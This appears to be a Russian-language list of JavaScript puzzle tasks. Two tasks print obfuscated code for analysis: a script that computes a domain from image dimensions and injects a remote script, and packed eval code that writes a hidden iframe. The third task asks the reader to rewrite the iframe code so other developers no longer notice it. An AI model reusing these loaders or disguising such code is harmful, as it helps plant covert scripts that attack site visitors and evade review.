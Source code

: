 Здесь будет различная подборка тестовых заданий, которые я встречал. 


1) задание первое:
        раздуть код 
                name='foo';alert(window.name);
        до одного килобайта.

2) задание второе:
        Объяснить, с какого адреса данный код
        ```javaScript
              <script type="text/javascript" id="73901220182">
                (function(d,c,b,a,e){
                    with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
                    function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
                 [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
                })("http://serve.oxystatic.com/init","script",document,[],73901220182)
                </script>
        ```
        подгрузит скрипт, и почему.

3) задание третье:
        Почему код по ссылке
        ```javaScript
          var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
      ```
        выглядит подозрительно?
        Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.

